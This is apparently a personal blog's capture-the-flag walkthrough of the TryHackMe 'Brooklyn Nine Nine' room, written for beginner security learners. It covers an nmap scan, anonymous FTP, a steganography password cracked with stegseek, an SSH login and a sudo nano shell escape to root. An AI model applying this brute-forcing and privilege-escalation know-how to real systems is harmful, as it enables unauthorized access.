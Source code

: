 ```yaml
---
title: TryHackMe Brooklyn Nine Nine
date: 2024-03-14 00:00:00 +0800
categories: [TryHackMe]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg
---
```


This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

## **Reconnaissance**
---
Initially do the Nmap scan.

```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:31 EDT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.15% done; ETC: 04:33 (0:01:42 remaining)
Nmap scan report for 10.10.145.160
Host is up (0.30s latency).
Not shown: 65399 closed tcp ports (conn-refused), 133 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.31 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.145.160

80 → HTTP

- There is a clue from the source code about **steganography**
- The background image is password protected

21 → FTP

- Anonymous login is allowed
- There is a note saying that Jake has a weak password. From Amy.

22 → SSH

- There are possible 3 usernames.
    - Amy:?
    - Jake:?
    - Holts. Is this another username
        - Extracted from the background image.
- Found a password
    - holt: fluffydog12@ninenine

## **Enumeration**
---
### 80 HTTP

Viewing the page source code

![Desktop View](/assets/images/brooklyn/source-code.png){: width="972" height="589" }

It looks like we will be using some steganography tools. Maybe from the background image of the webpage since there is a big emphasis on how the background image follows the screen resolution. But how do we get the file?

![Desktop View](/assets/images/brooklyn/get-file.png){: width="972" height="589" }

Looking at the source code, the `url()` function is used to include an external resource. In this case, it's referring to an image file named **brooklyn99.jpg**. We can access it by:

```bash
http://10.10.145.160/brooklyn99.jpg
```
Before anything else, read about [Steganography by freecodecamp](https://www.freecodecamp.org/news/what-is-steganography-hide-data-inside-data/) first.

We need to extract what's hidden from the background image using steghide. You can use the --help page for steghide if you don't understand the flag being used.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```

And it looks like the image is password protected. Let us use stegseek to bruteforce the password.

```bash
stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```
![Desktop View](/assets/images/brooklyn/stegseek.png){: width="972" height="589" }

**Use the steghide again** to extract the information from the background image and enter the password we got from bruteforcing using `stegseek`. Once extracted, view the text file.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```
![Desktop View](/assets/images/brooklyn/steghide.png){: width="972" height="589" }

GOOD DOG! Cheddar!! We got the password, but who uses that? We can search for possible usernames in the FTP.

### 21 FTP

```bash
ftp <IP>
```
![Desktop View](/assets/images/brooklyn/ftp.png){: width="972" height="589" }

```bash
ls -la
```
![Desktop View](/assets/images/brooklyn/ls.png){: width="972" height="589" }

```bash
get <FILENAME>
```
![Desktop View](/assets/images/brooklyn/getfile.png){: width="972" height="589" }

Go back to working directory of the attack machine and view the text file.

![Desktop View](/assets/images/brooklyn/weak.png){: width="972" height="589" }

Can we hail hydra? Or Just use the credentials we just found from the text file hiding in the background image and the text file we got from the FTP.




## **Gaining an Initial Foothold**
---

Login via SSH. I tried using holt as the username, if it did not work, using hydra would be our best bet. Enter the password when prompted.

```bash
ssh holt@<IP>
```
![Desktop View](/assets/images/brooklyn/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**
---

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/brooklyn/sudo.png){: width="972" height="589" }

It looks like our user is allowed to run `nano` as a superuser without a password. This means that we can open the final flag by leveraging the `sudo` command or just use the code below from GTFO bins to **spawn a root shell**.

![Desktop View](/assets/images/brooklyn/sudo-nano.png){: width="972" height="589" }

Using GTFOBins
```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

```bash
Ctrl + R
```
Nano allows inserting external files into the current one using the shortcut

```bash
Ctrl + X
```
This command allows us to execute system level commands using

```bash
reset; sh 1>&0 2>&0
```
Allows us to spawn a shell

![Desktop View](/assets/images/brooklyn/root-gtfo.png){: width="972" height="589" }

![Desktop View](/assets/images/brooklyn/pwned.png){: width="972" height="589" }


> Do not forget to find the FLAGS
{: .prompt-danger }

## **Take Away Concepts**
---
- Understand steganography. Sometimes, these pictures might have the passwords or hints you need to get on top of the machine.
- Always check websites or web apps carefully by yourself. View the page source!
- If the binary /bin/nano has extra permissions, you can use this to your advantage to escalate your privilege. Make sure you understand how this trick works instead of just copying blindly from GTFObins.
- Pay close attention to any hints given.
- Don't worry about checking different network services if you're stuck. You can always take notes and come back later.
- Trying to bruteforce passwords right away isn't the best first step. Make sure you've tried all other options first to gain an initial foothold!